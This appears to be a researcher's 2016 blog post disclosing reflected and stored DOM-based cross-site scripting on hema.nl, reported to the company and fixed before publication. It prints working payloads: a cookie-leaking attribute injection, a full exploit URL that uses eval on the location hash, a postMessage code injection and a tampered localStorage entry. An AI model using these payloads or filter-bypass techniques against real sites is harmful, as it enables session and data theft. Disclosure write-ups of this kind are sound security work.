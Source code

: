 ```yaml
---
title: Cross-site-scripting on one of the largest Dutch franchisors
subtitle: Reflected and "Stored" DOM-based cross-site-scripting on hema.nl
description: By abusing a sensitive data exposure vulnerability it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting. Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.
keywords: xss, cross-site, scripting, hema, dutch, franchisor, dom, dom-based, sensitive, data, exposure
date: 2016-12-20 21:14:41
---
```


By abusing a sensitive data exposure vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure" %}) it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting ({% customlink "https://www.owasp.org/index.php/Cross_Frame_Scripting" %}). Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.

> Please note that I used FireFox to test this vulnerability since browsers like Chrome, Safari and Edge have built in XSS auditors, which filter most of the reflected XSS.

> {% customlightbox "image-chrome-xss-auditor" "xss-auditor-block.png" "Google Chrome's XSS auditor" %}

### Proof of Concept (reflected XSS)
While examining hema.nl I found some interesting XHR calls. One of them was `ListerQuickView.aspx`, which contained a lot of GET parameters.

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=12345`

I tried to inject JavaScript in all the parameters but it didn't really work. Especially because they blocked all requests if the URL contained a `<` sign followed by another character. The value of one of the parameters, `productSku`, was used as an attribute value. This made it possible to execute JavaScript using the `onmousemove` event. Unfortunately the `onload` event couldn't be used since the element it got injected in was a div.

You can find the payload I used below. The inline CSS causes the div to overlap all content (this increases the chance that `onmousemove` is triggered). The `parent.postMessage` passes the cookie to the parent frame on mouse move.

`&productSku=tes" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="parent.postMessage(cookie, '*')">as`

Which resulted in the following HTML:

{% customlightbox "image-xss-payload" "xss-payload-in-source.jpg" "Payload in HTML" %}

We can now place this piece of art in an iframe, which results in cross frame scripting.

### Proof of Concept (Stored DOM-based XSS)

Making it "Stored DOM-based XSS" is a bit more difficult. I divided it into two steps, bypassing the input restrictions and inserting the JavaScript payload into the local storage.

#### Bypassing Hema's input restrictions

The DOM-based XSS vulnerability contains a little bit more code. Lets use the previous payload and edit it to look like this:

`data-message="message" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="eval(location.hash.substring(1))"`

This code executes the JavaScript from the `location.hash`. I used `location.hash` since hema.nl blocks a lot of characters, like `<` and `{`, and the `location.hash` will not be included in the request, so hema.nl will never know about it.

In my location hash I wrote `#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)})`.

I use `arguments[0].originalTarget.attributes[4].value` (where `arguments[0]` is the `onmousemove` event) to get the value of the fourth attribute of our div, which is the string `message`. I couldn't just add the string `"message"` to `addEventListener` since quotes in the hash are converted to `%22`, which results in an unexpected `%` character.

So all this code basically sets a listener for messages on mouse move. Using cross frame scripting we can now execute all the code we want in the hema.nl iframe using `postMessage`.

`document.getElementById('hema').contentWindow.postMessage('alert(document.cookie)', '*')`

Which results in:

{% customlightbox "image-alert-cookie" "xss-alert-cookie.png" "Alert on mouse over" %}

This is the full URL that I used:

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=tes%22%20data-message=%22message%22%20style=%22width:100%;height:100%;position:absolute;top:0;left:0;%22%20onmousemove=%22eval(location.hash.substring(1))%22%20data-test=%22as#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)});`

#### Making it "Stored DOM-based XSS"

Hema stores some interesting JSON in the local storage. For example, they store all the products that I added to my favorites.

A product that I added to my favorites looks like this:

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

And ofcourse, using our postMessage, we can edit it so it looks like this (note the `onload` in the imgUrl):

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg\" onload=\"alert(document.cookie)",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

Hema loads the favorites and shows the image without encoding the URL. Which means every time the victim navigates to hema.nl an alert will pop up.

So there you go, Stored DOM-based XSS!

{% customlightbox "image-stored-dom-based-xss-alert-cookie" "xss-stored-proof.png" "Stored DOM-based XSS in hema.nl" %}

### Domains
{% raw %}
<a href="http://www.hema.nl/" target="_blank" rel="noopener">www.hema.nl</a> (vulnerable)
<br>
<a href="http://www.hema.fr/" target="_blank" rel="noopener"><s>www.hema.fr</s></a> (protected by CloudFlare)
<br>
<a href="http://www.hema.be/" target="_blank" rel="noopener"><s>www.hema.be</s></a> (not vulnerable)
<br>
<a href="http://www.hemashop.com/" target="_blank" rel="noopener"><s>www.hemashop.com</s></a> (not vulnerable)
{% endraw %}

### Timeline
{% raw %}
<div class="table-responsive">
	<table class="table">
		<thead>
			<tr>
				<th>Date</th>
				<th>Activity</th>
			</tr>
		</thead>
		<tbody>
			<tr>
				<td>11 Dec 2016 18:43:34 GMT</td>
				<td>Reported the vulnerability to Hema.</td>
			</tr>
			<tr>
				<td>12 Dec 2016 09:23:21 GMT</td>
				<td>Hema is investigating the vulnerability.</td>
			</tr>
			<tr>
				<td>15 Dec 2016 13:54:56 GMT</td>
				<td>Hema confirmed the vulnerability.<br>Hema will be releasing a fix in week 51.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:11:44 GMT</td>
				<td>Hema fixed the vulnerability.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:14:41 GMT</td>
				<td>Public disclosure.</td>
			</tr>
		</tbody>
	</table>
</div>
{% endraw %}
